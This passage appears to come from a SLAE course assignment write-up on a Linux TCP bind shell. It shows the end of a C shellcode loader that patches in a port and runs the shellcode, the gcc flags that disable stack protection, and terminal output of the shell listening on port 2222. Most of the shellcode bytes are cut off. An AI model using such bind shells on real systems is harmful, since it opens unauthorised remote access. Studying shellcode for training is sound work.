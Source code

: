 ```c
"\xe1\xb0\x0b\xcd\x80";

if (argc <= 1) {
        printf("[!] Usage: %s <port>\n\n", argv[0]);
        return -1; 
}
// provide binary form of the port 
unsigned int port = htons(atoi(argv[1]));
// copy the new port in the right shellcode offset 
// 29 bytes from the beginning of the shellcode   
memcpy(&shellcode[PORT], &port, 2);  

printf("[!] Length:  %d\n", strlen(shellcode)); 
int (*ret)() = (int(*)())shellcode;    

ret();
}
```

the following command will be used to compile the program above

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># gcc -fno-stack-protector -z execstack -o bindshell bindshell.c
</pre>

Furthermore, as seen below when the **bindshell** program runs the target machine opens up a communication port or a listener on the target machine and waits for an incoming connection.

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span>#./bindshell 2222 
[!] Length: 104
</pre>


If we run **netstat** we will see that the port **2222** is open and waiting for connections


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># netstat -antp | grep 2222 
tcp 0 0 0.0.0.0:<span style="color:red;">2222</span> 0.0.0.0:* LISTEN 1015/./bindshell
</pre>

Now if we use **netcat** we will be able to connect to the target machine at port **2222** as seen below
